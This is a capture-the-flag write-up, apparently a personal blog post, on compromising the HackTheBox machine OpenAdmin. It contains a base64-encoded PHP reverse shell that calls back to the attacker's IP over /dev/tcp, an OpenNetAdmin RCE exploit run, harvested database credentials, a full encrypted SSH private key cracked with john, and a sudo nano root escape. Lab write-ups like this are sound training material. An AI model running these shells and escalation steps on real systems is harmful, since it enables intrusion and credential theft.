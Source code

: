```yaml
---
layout: post
title: HackTheBox OpenAdmin (10.10.10.171) Writeup
description: >
  Hackthebox OpenAdmin Writeup
image: /assets/img/openadmin.png
noindex: true
---
```


First start with an nmap scan
```
Starting Nmap 7.70 ( https://nmap.org ) at 2020-03-31 11:32 Pacific Daylight Time
Nmap scan report for 10.10.10.171
Host is up (0.028s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.04 seconds
```
Only two ports open. Doing some enumeration around port 80 I discover ther `/ona` directory. There I see the server is running `OpenNetAdmin 18.1.1`. A quick search will reveal there is an RCE exploit available for that verion [here](https://www.exploit-db.com/exploits/47691). Running the script shows I can execute commands as `www-data`
```
$./exploit.sh http://10.10.10.171/ona/
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
To get a reverse shell I had to base64 encode a reverse php shell and then base64 decoded and output to a file. Here is the simple shell.
```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.48/9999 0>&1'");
```
Here is the shell base64 encoded and being output to a file.
```
$ echo "PD9waHAKZXhlYygiL2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjQ4Lzk5OTkgMD4mMSciKTs=" | base64 -d > shell.php
```
Now I set up my listener and execute the shell. By navigating to `http://10.10.10.171/ona/shell.php`
```
PS C:\Users\Lukasz\Documents\HTB\OpenAdmin > nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.14.48] from (UNKNOWN) [10.10.10.171] 50670
bash: cannot set terminal process group (1061): Inappropriate ioctl for device
bash: no job control in this shell
www-data@openadmin:/opt/ona/www$
```
Doing some enumeration I find some credentials in `/opt/ona/www/local/config/database_settings.inc.php`
```
www-data@openadmin:/opt/ona/www/local/config$ cat database_settings.inc.php
cat database_settings.inc.php
<?php

$ona_contexts=array (
  'DEFAULT' =>
  array (
    'databases' =>
    array (
      0 =>
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
```
Using those credentials I can log in as the user `jimmy`. At this point there is still no `user.txt` file which means I need to escalate to the user `joanna`. Do some further enumeration I find some interesting files in `/var/www/internal`. Reading the file `main.php` I see that when this file is called it executed a shell command to read `joanna's` private ssj key.
```
jimmy@openadmin:/var/www/internal$ cat main.php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); };
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```
I check netstat and see that there is a service running on `127.0.0.1:52846`.
```
tcp        0      0 127.0.0.1:52846         0.0.0.0:*               LISTEN      off (0.00/0/0)
```
Using `curl` to callpage I am able to get `joanna's` private key.
```
jimmy@openadmin:/var/www/internal$ curl 127.0.0.1:52846/main.php
<pre>-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
</pre><html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```
Now the ssh key is encrypted so it does need to be cracked. I used `john` for this. First I convert the key to a format john can read using `ssh2john`
```
root@kali:# /usr/share/john/ssh2john.py id_rsa > key.hash
```
Then I use john to crack it and get a password of `bloodninjas`
```
# john key.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:11 DONE (2020-03-31 13:15) 0.08438g/s 1210Kp/s 1210Kc/s 1210KC/sa6_123..*7¡Vamos!
Session completed
```
I use the password to log in as the user `jonna` using her private ssh key. Once logged in I can read the `user.txt` file.
```
joanna@openadmin:~$ cat user.txt 
c9b2cf07d40807e62af62660f0c81b5f
```
For the priviledge escalation to root I see that I am able to run a command as the user root.
```
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```
Using simple GTFOBins I run the following commands to get a root shell
```
# sudo /bin/nano /opt/priv
^R^X
reset; sh 1>&0 2>&0
```
Now I have a shell as root and from here I can read the `root.txt` file.
```
# cat root.txt
2f907ed450b361b2c2bf4e8795d5b561
```
